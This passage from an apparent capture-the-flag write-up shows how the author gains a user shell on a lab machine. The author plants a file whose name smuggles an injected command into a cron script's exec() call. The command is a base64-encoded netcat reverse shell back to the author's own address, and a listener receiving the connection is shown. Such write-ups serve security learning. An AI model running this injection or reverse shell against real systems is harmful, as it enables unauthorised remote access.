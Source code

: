 Putting that all together, I’ll touch a file that will get a shell:

    
    
    bash-4.2$ touch '/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b'
    bash-4.2$ ls
    10_10_14_5.php.png
    127_0_0_1.png
    127_0_0_2.png
    127_0_0_3.png
    127_0_0_4.png
    a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b
    index.html
    

When the script runs, it will loop over the files, and when it runs over mine, it will set `$value` to `a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b` and run:
    
    
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    

Which means it will run:

    
    
    exec("nohup /bin/rm -f /var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b > /dev/null 2>&1 &");
    

Once the clock hits a minute divisible by three, I get a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:57712.
    id
    uid=1000(guly) gid=1000(guly) groups=1000(guly)
    

I’ll also make sure to clean up my file:

    
    
    bash-4.2$ rm a*
    

As guly, I can grab `user.txt`:

    
    
    [guly@networked ~]$ cat user.txt 
    526cfc23...
    

## Privesc to root

### Enumeration
